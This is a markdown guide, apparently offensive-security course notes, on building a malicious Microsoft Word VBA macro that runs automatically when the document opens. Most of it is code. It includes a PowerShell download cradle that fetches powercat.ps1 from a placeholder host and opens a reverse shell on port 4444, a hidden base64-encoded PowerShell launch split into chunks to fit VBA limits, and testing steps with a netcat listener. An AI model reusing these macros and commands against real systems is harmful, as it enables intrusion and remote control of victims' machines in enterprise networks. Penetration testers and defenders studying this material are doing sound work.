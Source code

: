 # Exploiting Microsoft Office

## Leveraging Microsoft Word Macros for Reverse Shells

### Overview

Microsoft Word macros, written in Visual Basic for Applications (VBA), can automate tasks and serve as a powerful client-side attack vector when maliciously crafted. This guide outlines the creation of a macro to launch a reverse shell using PowerShell.

***

### Key Points

#### 1. Macro Basics

* **What are Macros?**
  * Macros are written in VBA, offering full access to ActiveX objects and the Windows Script Host.
  * `.doc` or `.docm` formats are required to embed macros. Macros in `.docx` are not persistent.

***

#### 2. Macro Setup

**Steps:**

1. Save a Word document as `.doc`.
2. Access the macro menu via **View > Macros > Create**.
3. Develop the macro in the Visual Basic for Applications editor.

**Default Macro Skeleton:**

```vba
Sub MyMacro()
'
' MyMacro Macro
'
End Sub
```

***

#### 3. Executing Commands with ActiveX

**Example Macro to Open PowerShell:**

```vba
Sub MyMacro()
    CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

***

#### 4. Auto-Execution

**Use `AutoOpen` and `Document_Open` to ensure macros execute when the document opens:**

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub
```

***

#### 5. Creating a Reverse Shell

**PowerShell Download Cradle:**

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/powercat.ps1');powercat -c <IP> -p 4444 -e powershell
```

* Base64-encode the command to avoid issues with special characters.

***

#### 6. Embedding Encoded Commands

**Split the base64-encoded string into chunks to bypass VBA's 255-character limit:**

```vba
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND_PART1"
    Str = Str + "BASE64_ENCODED_COMMAND_PART2"
    ...
    CreateObject("Wscript.Shell").Run Str
End Sub
```

***

#### 7. Testing

1. Start a Python web server to host `powercat.ps1`.
2. Use a Netcat listener to catch the reverse shell.
3. Open the Word document and enable macros.

***

### Summary

* **Objective**: Exploit Word macros for initial footholds in enterprise networks.
* **Outcome**: A reverse shell is achieved using a malicious macro that downloads and executes PowerCat via PowerShell.
* **Challenges**:
  * Victim must enable macros.
  * Increased awareness and security controls make delivery harder.

Macros remain effective but increasingly challenging to deliver, necessitating alternative or supplementary attack vectors.
